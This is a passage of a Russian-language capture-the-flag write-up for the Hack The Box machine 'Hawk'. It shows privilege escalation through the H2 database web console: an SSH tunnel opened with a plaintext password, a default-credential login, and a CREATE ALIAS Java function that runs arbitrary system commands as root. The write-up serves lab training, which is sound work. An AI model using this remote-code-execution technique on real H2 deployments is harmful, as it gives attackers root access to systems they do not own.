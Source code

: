 Как и обещал nmap — это веб-консоль базы H2.

> Удаленные соединения запрещены.

говорит она, поэтому логично предположить, что разрешены локальные :neckbeard:

Поэтому прокинем SSH-туннель и рассмотрим БД поподробнее.

# PrivEsc: daniel → root (H2)
## Веб-консоль
Поднимем локальный SSH-туннель:
```text
root@kali:~# sshpass -p 'drupal4hawk' ssh -oStrictHostKeyChecking=no -L 8082:127.0.0.1:8082 daniel@10.10.10.102

```

И попробуем авторизоваться в веб-консоле H2, которая поселилась по адресу `http://127.0.0.1:8082`:

[![port8082-browser-2.png]({{ "/assets/images/htb/hawk/port8082-browser-2.png" | relative_url }})]({{ "/assets/images/htb/hawk/port8082-browser-2.png" | relative_url }})
{: .center-image}

Подключиться к БД `jdbc:h2:~/test` не удалось, т. к. она **существует и** мы не знаем нужных кредов. Но вот если попробовать присоединиться к **несуществующей** базе, то она автоматически будет создана, и залогиниться можно будет с кредами по умолчанию `sa:`:

[![port8082-browser-3.png]({{ "/assets/images/htb/hawk/port8082-browser-3.png" | relative_url }})]({{ "/assets/images/htb/hawk/port8082-browser-3.png" | relative_url }})
{: .center-image}

Есть контакт, и мы внутри.

## CREATE ALIAS
Есть не один способ эскалации привилегий с помощью инструментария H2, но в рамках данного райтапа мы остановимся на выполнении произвольного кода через создание функций с помощью `CREATE ALIAS`. В [этом](https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html "Gambler - Hacking and other stuffs") посте хорошо описан этот метод.

Для начала создадим такой алиас:
```text
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException { java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A"); return s.hasNext() ? s.next() : "";  }$$;
CALL SHELLEXEC('cat /root/root.txt')
```

И заберем root-флаг:

### root.txt

[![port8082-browser-4.png]({{ "/assets/images/htb/hawk/port8082-browser-4.png" | relative_url }})]({{ "/assets/images/htb/hawk/port8082-browser-4.png" | relative_url }})
{: .center-image}
